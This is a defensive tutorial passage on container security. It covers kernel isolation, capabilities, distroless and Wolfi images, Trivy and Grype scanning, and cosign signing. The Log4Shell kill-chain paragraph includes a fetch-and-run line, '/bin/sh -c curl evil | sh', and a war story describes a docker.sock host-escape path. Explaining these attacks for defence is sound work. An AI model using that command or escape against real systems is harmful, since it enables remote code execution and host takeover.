










# Container Security: Distroless, Wolfi, Image Signing & Runtime Hardening

[Docker basics (C10/T01)](../C10-devops-and-observability/T01-docker-and-containerization-for-java.md) and [Dockerfile best practices (C10/T02)](../C10-devops-and-observability/T02-dockerfile-best-practices-for-java-apps.md) teach you to *build* an image — multi-stage, layered, a non-root user, `tini`. This topic is the **security** layer those deliberately leave out: the container *threat model*, the Linux kernel primitives that actually isolate a container (and the ones that, misconfigured, let an attacker escape to the host), why **distroless** and **Wolfi** images shrink the attack surface to almost nothing, how to **cryptographically prove** the image you run is the one you built (Sigstore/cosign, SLSA provenance), and the **runtime hardening** that turns a remote-code-execution into a dead end.

This is the direct sequel to [JVM-specific CVEs (T17)](./T17-jvm-specific-cves-log4shell-spring4shell.md). There we saw Log4Shell and Spring4Shell give an attacker code execution *inside* the JVM. The question this topic answers is: *once they're in, how far can they get?* With default container settings — root user, writable filesystem, a full shell, the service-account token mounted, unrestricted egress — the answer is "very far." With the hardening here, the same RCE is contained to a stateless process that can't write a webshell, can't spawn a shell, can't reach the host, and can't phone home. Containment, not just prevention, is what separates an incident from a breach.

## The Mental Model: An Apartment, Not a House

Before the kernel mechanics, hold one analogy in your head, because every control below maps to it. A **virtual machine is a detached house**: its own foundation, its own plumbing, its own walls all the way down to the ground (its own kernel and virtualized hardware). To get from one detached house to its neighbour you have to physically leave and break in again — the isolation goes to the bedrock. A **container is an apartment in a shared building**: you have your own locked door, your own rooms, your own mailbox (your namespaces), but you share *one foundation and one set of structural walls* with every other tenant — that shared foundation is **the host kernel**. Most of the time the locked door is enough. But because the foundation is shared, a crack in the *building's structure* (a kernel bug) can in principle let someone in apartment 3B reach into 3A or down into the building's utility room (the host). This is why a container "is not a security boundary by default" — you trust the building's structure, and you add deadbolts, alarms, and a concierge precisely because the walls are thinner than a detached house's.

Keep three more pictures ready, because they recur throughout:

- **Capabilities are a split master key.** Root used to be one master key that opens every door in the building. Linux capabilities take that master key and cut it into ~40 small keys — one for "bind low-numbered ports," one for "change file ownership," one for "trace another tenant's process," one for "remodel the plumbing" (`CAP_SYS_ADMIN`). The hardened posture is to hand a tenant *no keys at all* and add back only the one or two they provably need.
- **A distroless image is a room swept clean of tools.** A burglar who climbs through the window of a fully-stocked workshop (a `debian` base) finds a crowbar, a ladder, bolt-cutters, and a phone (`/bin/sh`, `curl`, `wget`, `apt`, a Python interpreter) — everything needed to break further in and call accomplices. A distroless image is an empty room with your one appliance bolted to the floor: the burglar is *inside*, but there is nothing lying around to pry the next door open or to phone out with.
- **Signing is a tamper-evident seal with a public notary.** Pinning by digest is sealing the box so its contents can't change. Signing is stamping the seal with a notary's mark that says *who* sealed it, and recording that stamp in a public ledger (Rekor) so nobody can forge or backdate it.

These four pictures — shared foundation, split master key, swept room, notarized seal — are the whole topic in miniature. The rest is the engineering that makes them real.

> [!NOTE]
> Prerequisites: [JVM-specific CVEs (T17)](./T17-jvm-specific-cves-log4shell-spring4shell.md) (the RCE we're containing), [Dependency & supply-chain security (T15)](./T15-dependency-and-supply-chain-security.md) (SBOMs/scanning), [Security architecture & zero trust (T16)](./T16-security-architecture-and-zero-trust-intro.md) (blast-radius thinking), [Dockerfile best practices (C10/T02)](../C10-devops-and-observability/T02-dockerfile-best-practices-for-java-apps.md), and [Kubernetes basics (C10/T03)](../C10-devops-and-observability/T03-kubernetes-basics.md) for the `securityContext` mechanics.

## The Container Threat Model

A container is **not** a security boundary by default — it is a Linux process with a restricted *view* of the system, sharing one kernel with every other container and the host. So an attacker who gains RCE inside a container has a clear progression to attempt:



Each arrow is a control we'll build. The defensive posture mirrors zero trust ([T16](./T16-security-architecture-and-zero-trust-intro.md)): assume the process *will* be compromised, and minimize what a compromised process can reach.

> [!NOTE]
> **War story — the crypto-miner that paid for itself (and not much else).** A mid-size SaaS team shipped a Spring Boot service with a transitive dependency carrying a deserialization RCE. A commodity botnet found it, dropped a stage-2 payload, and started an XMRig crypto-miner. Here is the part that matters: the pod was hardened roughly like the spec at the end of this topic — non-root, `readOnlyRootFilesystem: true`, `drop: ["ALL"]`, a default-deny egress `NetworkPolicy`, and `automountServiceAccountToken: false`. The miner *started* — the RCE was real — but it pegged a single container's CPU against a `cgroup` limit of `1000m`, so the node never noticed; it tried to write its persistence cron and config to disk and got `EROFS` (read-only filesystem); it tried to reach the mining pool and the egress policy dropped the SYN; and it had no Kubernetes API token to enumerate the cluster. Falco fired on "shell spawned in container" within seconds and paged the on-call. Total blast radius: one pod's worth of wasted CPU for about ninety seconds, then a kill and a rollback. The same RCE on a *default* pod — root, writable FS, open egress, token mounted — is a cluster-wide incident with attacker persistence and lateral movement. The vulnerability was identical; the **containment** was the entire difference. That is the thesis of this topic in one paragraph.

## How Container Isolation Actually Works (Kernel Mechanism)

To harden a container you must know what isolates it. There is no "container" object in the kernel — a container is a process whose view is narrowed by three kernel features.

### Namespaces — Restricting What a Process Can *See*

A **namespace** virtualizes a global system resource so the processes inside it see their own isolated instance. Docker/containerd put each container in its own set:



| Namespace | Isolates | Security relevance |
|---|---|---|
| `pid` | Process IDs | Can't see/signal host or other containers' processes |
| `mnt` | Mount points / filesystem | Own root FS; can't see host files unless mounted in |
| `net` | NICs, ports, routing | Own network stack; basis for NetworkPolicy |
| `user` | UID/GID mapping | **Container root (0) maps to an unprivileged host UID** — the strongest escape mitigation |
| `uts`, `ipc` | Hostname, SysV IPC/shm | Lesser, but part of the boundary |

> [!IMPORTANT]
> The **user namespace** is the one that matters most for escapes: with it enabled, `root` inside the container is a powerless high-numbered UID on the host, so even a breakout lands as nobody. Without it (still a common default), container-root *is* host-root the moment isolation fails.

To make the user namespace concrete: think of the building again. Without a user namespace, the "building superintendent" badge (UID 0) that a tenant holds *inside their apartment* is the **same physical badge** the building's real superintendent carries — if the tenant ever steps into the hallway (escapes the container), that badge opens the boiler room and every other apartment. With a user namespace, the tenant's badge is a **photocopy that only the apartment's own locks recognize**: inside, it says "superintendent" and opens their fridge and closets (their own files); the instant they reach the shared hallway it reads as a nameless visitor pass (a high-numbered, unprivileged host UID like `100000`) that opens nothing. The remapping is exactly what turns a breakout from "game over" into "landed as nobody."



> [!NOTE]
> **In practice — why this is still off by default, and what to do about it.** Despite being the strongest single escape mitigation, rootless/user-namespace mode is not universally on: it interacts awkwardly with some volume-mount ownership, certain CNI plugins, and workloads that genuinely need real host privileges. In managed Kubernetes (EKS/GKE/AKS) you increasingly get it via the pod-level `hostUsers: false` field on newer clusters, or by running the whole node in rootless containerd. The pragmatic rule: even if you *can't* enable user namespaces everywhere yet, the rest of the hardening (non-root UID, `drop ALL`, seccomp, read-only FS) still holds — user namespaces are the belt *on top of* the braces, not a substitute for them.

### cgroups — Restricting What a Process Can *Use*

**Control groups** cap CPU, memory, PIDs, and I/O. Beyond stability, this is a security control: it prevents a compromised container from starving the node (a local DoS) or fork-bombing it. This is why you always set resource `limits` — and why the JVM's container-awareness (`MaxRAMPercentage`, from C10/T02) reads cgroup limits.

### Capabilities, seccomp, LSM — Restricting What a Process Can *Do*

Even as root, what a process may do is gated by three more layers that every syscall passes through:



- **Capabilities** — Linux splits the monolithic power of root into ~40 distinct privileges (`CAP_NET_BIND_SERVICE`, `CAP_NET_RAW`, `CAP_SYS_ADMIN`, `CAP_SYS_PTRACE`, `CAP_DAC_OVERRIDE`, `CAP_SETUID`…). This is the **split master key** from the intro made literal: instead of one all-opening key, the kernel hands out individual small keys. Docker grants a default subset; **the hardened posture is drop *all* and add back only what's truly needed** (usually nothing for a Spring app on a port > 1024). The mental test for any `add:` line is the landlord's question — *"would I give a new tenant the boiler-room key just so they can hang a picture?"* If the answer is no, the capability doesn't belong in the manifest.

  | Capability | Grants | Risk if present |
  |---|---|---|
  | `CAP_SYS_ADMIN` | Mount, many admin ops | "The new root" — near-total power; prime escape vector |
  | `CAP_NET_RAW` | Raw/packet sockets | ARP/DNS spoofing, network recon |
  | `CAP_SYS_PTRACE` | Trace other processes | Read other processes' memory/secrets |
  | `CAP_DAC_OVERRIDE` | Bypass file permission checks | Read/write any file in the container |
  | `CAP_NET_BIND_SERVICE` | Bind ports < 1024 | Mostly benign; the one you might add |

- **seccomp** (secure computing mode) — a BPF filter that allow/deny-lists *syscalls*. The default Docker/containerd profile already blocks ~44 dangerous syscalls (e.g. `kexec_load`, `ptrace` in older profiles, `mount`); Kubernetes' `seccompProfile: RuntimeDefault` opts a pod into it. Many CVEs are simply unreachable without the syscall.

- **LSM (Linux Security Modules): AppArmor / SELinux** — mandatory access control layered on top, confining which files/operations a process may touch regardless of Unix permissions.

### Why This Matters: Real Escapes

The famous container escapes are all *misconfigurations or bugs in this machinery*:

- **`--privileged` + host mounts** — disables most of the above; mounting the host root or `/var/run/docker.sock` is game over (control the Docker daemon = control the host).
- **`CAP_SYS_ADMIN`** — enough capability to manipulate mounts/cgroups toward a breakout.
- **runc CVE-2019-5736** — a malicious image overwrote the host `runc` binary via `/proc/self/exe`.
- **"Leaky Vessels" CVE-2024-21626** — a working-directory/file-descriptor leak in runc allowed escape.

The lesson: keep the defaults *on*, never run privileged, never mount the socket, and patch the runtime.

> [!NOTE]
> **War story — the mounted Docker socket that handed over the farm.** A CI/build pod needed to "build Docker images inside Docker," and the quick fix someone found on a forum was to bind-mount `/var/run/docker.sock` into the pod. It worked, so it shipped. Months later an injection flaw in the build webhook gave an attacker RCE inside that pod. Mounting `docker.sock` means the container can talk to the *host's* Docker daemon, and that daemon runs as **host root**. The attacker didn't need a kernel exploit at all — they simply asked the daemon, politely, over the socket: *"run me a new container, `--privileged`, with the host's `/` mounted at `/host`."* The daemon obliged. From inside that second container they wrote an SSH key into the host's `/root/.ssh/authorized_keys` and owned the node, then every node, then the cluster. In apartment terms: mounting `docker.sock` is handing a tenant a direct phone line to the building superintendent's office with standing authority to issue *any* order — there is no wall left to climb. The same shape of disaster comes from `privileged: true` (which strips nearly all the isolation machinery in one flag) or from mounting the host root filesystem. The fix for "Docker in Docker" is a daemonless, rootless builder such as **Kaniko**, **Buildah**, or **BuildKit's rootless mode** — none of which need the host socket. Treat any manifest that requests `docker.sock` or `privileged: true` as a sev-1 finding in review, not a style nit.



## Minimal Images: Attack-Surface Reduction

C10/T02 made the *size* argument for small base images. The **security** argument is sharper: every binary in the image is a tool the attacker inherits the moment they get RCE, and every package is a potential CVE.



Recall T17: Log4Shell's exploitation typically needs a *second stage* — fetch a class over HTTP, or spawn `/bin/sh` for a reverse shell. **A distroless image has no shell and no `curl`**, so the most common exploitation steps simply fail. You haven't fixed the bug, but you've removed the attacker's toolkit.

### Find the Attacker's Toolkit: `debian` vs `distroless`, Side by Side

The "swept room" analogy from the intro is most convincing when you actually inventory what an RCE inherits. Imagine the attacker has just achieved code execution and runs the equivalent of `which sh curl wget nc python3 apt gcc`. Here is what they find:

| What the attacker reaches for | `eclipse-temurin:21` (debian-based) | `gcr.io/distroless/java21` |
|---|---|---|
| `/bin/sh`, `/bin/bash` (spawn a shell, reverse shell) | present | **absent** |
| `curl` / `wget` (download stage-2 payload) | present | **absent** |
| `nc` / `ncat` (open a listener / pipe a shell) | often present | **absent** |
| `python3` / `perl` (one-liner reverse shells) | sometimes | **absent** |
| `apt` / `dpkg` (install whatever's missing) | present | **absent** |
| `gcc` / `make` (compile a local-privesc exploit) | sometimes | **absent** |
| Package count (more packages ⇒ more CVEs) | hundreds | a handful |
| Your app + JRE | present | present |

The right-hand column is the swept room: the burglar is in, but the workshop has been emptied. The classic Log4Shell kill-chain — *trigger JNDI lookup → JVM fetches a remote class → that class runs `Runtime.exec("/bin/sh -c 'curl evil | sh'")`* — breaks at **two** independent steps in distroless: there is no `/bin/sh` to exec, and no `curl` to fetch with. The attacker now has to bring their *entire* toolkit in-band through the original vulnerability and live entirely inside the JVM, which is far harder, far noisier, and exactly the kind of anomaly Falco lights up on.

> [!NOTE]
> **In practice — a subtlety worth knowing.** "No shell" raises the bar, it doesn't build a wall. A sufficiently determined attacker who already has code execution *inside the JVM* can do a lot without ever shelling out — open sockets, read files, manipulate the running process — all in pure Java/bytecode. So distroless is one layer of containment, not a cure. Its real power shows up in combination: no shell (distroless) **and** read-only FS (nowhere to drop a tool) **and** default-deny egress (can't fetch one) **and** no SA token (can't pivot) means the attacker is boxed into a stateless, offline, unprivileged process. Each control on its own is porous; stacked, they leave almost no move.

### Distroless

Google's **distroless** images (`gcr.io/distroless/java21-debian12`) contain only your application and its runtime dependencies — *no shell, no package manager, no coreutils*. Benefits: far fewer packages → far fewer CVEs; no shell → most RCE pivots and reverse shells fail; smaller and faster too.

### Wolfi / Chainguard Images

**Wolfi** is a Linux *undistro* purpose-built for containers (from Chainguard). Versus Alpine, it uses **glibc** (so Java native libs — Netty epoll, BoringSSL — behave normally, unlike Alpine's musl), is **rolling and continuously rebuilt** toward near-zero known CVEs, and ships images with an **SBOM and a signature built in**. Images are assembled declaratively with `apko`/`melange` rather than imperative `RUN apt-get`, making contents fully reproducible and auditable.

| Base | Shell | Pkg mgr | libc | CVE surface | Debuggability |
|---|---|---|---|---|---|
| `debian`/`ubuntu` | yes | apt | glibc | High | Easy |
| `*-slim` | yes | apt | glibc | Medium | Easy |
| `alpine` | yes (ash) | apk | **musl** (native-lib risk) | Low-Med | Easy |
| **distroless** | **no** | **no** | glibc | **Low** | Hard (use `:debug`) |
| **Wolfi/Chainguard** | optional | apk (build only) | glibc | **Very low** | Medium |

### Choosing a Base: Distroless vs Wolfi vs Slim

The table tells you the properties; the harder question is *which one for which job*. Use this decision guidance:

- **Reach for `*-slim` (e.g. `eclipse-temurin:21-jre-jammy`)** when the team is early, the on-call still debugs by `kubectl exec`-ing a shell into prod, and the operational maturity to use ephemeral debug containers isn't there yet. Slim keeps a shell and `apt`, so it's the *least* hardened of the small bases — but it's a strict improvement over a full base, and a realistic first step. Treat it as a way station, not a destination.
- **Reach for `distroless`** when you want maximum attack-surface reduction with a Google-maintained, well-trodden base and you're prepared to debug via `kubectl debug` / the `:debug` variant. This is the right default for most first-party Spring services: no shell, no package manager, glibc so Netty/BoringSSL native libs behave. The cost is purely operational (harder ad-hoc debugging), and that cost is payable with ephemeral debug containers.
- **Reach for `Wolfi`/Chainguard** when you want distroless-grade surface reduction *plus* an aggressive, near-zero-CVE posture and supply-chain niceties baked in: a per-image SBOM, a signature, and declarative `apko`/`melange` builds that are reproducible and auditable. Wolfi's rolling rebuilds mean "patch the base on a schedule" largely happens *for* you — the image is continuously reconstructed against fixed packages. This is the strongest choice when you're being audited (SOC 2, FedRAMP) or when a noisy scanner dashboard is itself a problem, because "zero known CVEs in the base" is a real, reportable property. The trade-off is a newer ecosystem and, historically, some images behind a commercial tier.
- **Reach for a Wolfi/distroless *static* base with a GraalVM native image** when you've already gone native (see the TIP below) and want the surface measured in single-digit files.

A simple way to remember the ladder: **full → slim → distroless → Wolfi → native-on-static** is a monotonic march down the attack surface, and you move down it as your operational maturity (debugging without a shell, enforcing signatures) goes up. Don't skip three rungs in one sprint; each step that removes a shell or a package manager also removes a habit your team relies on, and the migration fails if the habit isn't replaced first.

> [!TIP]
> The natural endpoint for Java is a **GraalVM native image** ([L3/C02/T05](../../L3-advanced-jvm/C02-jvm-internals-and-performance/T05-aot-and-graalvm-native-image.md)) on a distroless/Wolfi *static* base: a single self-contained binary, no JVM, no shell, an attack surface measured in a handful of files.

### Scan the Image Anyway: Trivy and Grype

A minimal base shrinks the CVE surface but does not zero it — your *application* layer (the fat JAR, its transitive dependencies) still ships vulnerabilities, and even Wolfi packages occasionally get a fresh CVE. So you scan, in CI and continuously in the registry:

- **Trivy** (Aqua Security) and **Grype** (Anchore) are the two ubiquitous open-source image/filesystem scanners. Both unpack an image, read its package metadata *and* language-level manifests (Maven/Gradle lockfiles, the SBOM if present), and match against vulnerability databases. They overlap heavily; many shops run one in CI and accept whichever their registry (Harbor, ECR, GAR) integrates natively.
- The crucial discipline is **fail the build on policy, not on noise**: gate on *fixable*, high/critical CVEs in components you actually load, and use an ignore file (`.trivyignore`) with an expiry and a justification for accepted risk — never a blanket "ignore all." A scanner that always fails gets disabled within a week; a scanner tuned to the few CVEs that matter stays on.
- Scanning ties back to [T15](./T15-dependency-and-supply-chain-security.md): the SBOM you generate there is the *input* the scanner consumes here. SBOM = the bill of materials; Trivy/Grype = checking that bill against the day's vulnerability feed. Because the feed changes daily, scan the *deployed* image on a schedule, not only at build time — a base that was clean on Monday can have a critical CVE by Thursday.

> [!WARNING]
> "No shell" hurts *debugging*, not security. Don't add a shell back to production images. Use **ephemeral debug containers** instead — `kubectl debug -it pod --image=busybox --target=app` attaches tooling to the running pod's namespaces without baking it into the image.

## Image Supply-Chain Integrity: Prove What You Run

[T15](./T15-dependency-and-supply-chain-security.md) secured the *dependencies that go into* the build. This secures the *artifact that comes out*: how do you know the image your cluster pulled is byte-for-byte the one your CI built, from your source, and not a tampered or typosquatted substitute?

> [!NOTE]
> **Why this section exists: the xz-utils backdoor (CVE-2024-3094).** In early 2024 the security world watched a near-miss that reframed supply-chain risk for everyone. A patient attacker spent **years** building trust as a maintainer of `xz-utils`, a compression library so unglamorous it's in essentially every Linux distribution. They then slipped an obfuscated backdoor into the *release tarballs* — not the public Git source, the tarballs — that hooked into `sshd` via a transitive `liblzma` link and would have allowed remote, authenticated-looking access to a vast swath of internet-facing servers. It was caught almost by luck: a Microsoft engineer noticed `sshd` was a few hundred milliseconds slower than expected and pulled the thread. The lesson for *us* is precise and motivates everything below: the malicious bits were **in the built artifact but not in the source**, and they reached machines because those machines pulled an artifact and trusted it implicitly. Two controls would have made this far harder to weaponize at scale. First, **reproducible builds + provenance**: if every consumer demanded a cryptographic statement of *"this artifact was built from commit `abc123` by this builder, here are the steps,"* an artifact whose contents don't match its declared source becomes detectable. Second, **signing + a transparency log**: a public, tamper-evident record of who signed what, when, makes silent substitution and backdating visible. xz-utils is the cautionary tale you cite when someone asks why digest-pinning, signing, provenance, and Rekor are worth the pipeline complexity. The answer: because "trust the maintainer" failed, and the next attacker is more patient than the last.

### 1. Pin by Digest (Content Addressing)

A tag like `:latest` is mutable; a digest is the SHA-256 of the image content and is immutable. Deploy by digest so the bytes can't change under you:

```dockerfile
FROM cgr.dev/chainguard/jre@sha256:9f2c...   # immutable, content-addressed
```

### 2. Sign with Sigstore / cosign (Keyless)

A digest proves *immutability*, not *origin*. Signing proves "*my* pipeline produced this." **Sigstore/cosign** makes this practical with **keyless** signing — no long-lived private key to leak:



```bash
# Sign (identity comes from the CI's OIDC token; cert is ephemeral)
$ cosign sign cgr.dev/me/app@sha256:9f2c...

# Verify at deploy time: who signed it, and from which issuer
$ cosign verify cgr.dev/me/app@sha256:9f2c... \
    --certificate-identity-regexp 'https://github.com/me/app/.*' \
    --certificate-oidc-issuer https://token.actions.githubusercontent.com
```

Fulcio issues a throwaway certificate bound to the CI's verified OIDC identity; the signature and certificate are recorded in **Rekor**, a public transparency log, so tampering or backdating is detectable.

To name the three Sigstore pieces against the notary analogy from the intro: **Fulcio** is the notary's office that checks your ID (your CI's OIDC token) and issues a short-lived stamp; **Rekor** is the public ledger where every stamp is recorded so nobody can forge or backdate one; and **cosign** is the tool you hold that walks the artifact through both. There is no long-lived private key sitting in a secret store waiting to leak — the signing identity is your CI's verified runtime identity, and the certificate expires in minutes.

#### A Full CI Walk-Through: Build → Sign → Attest → Verify

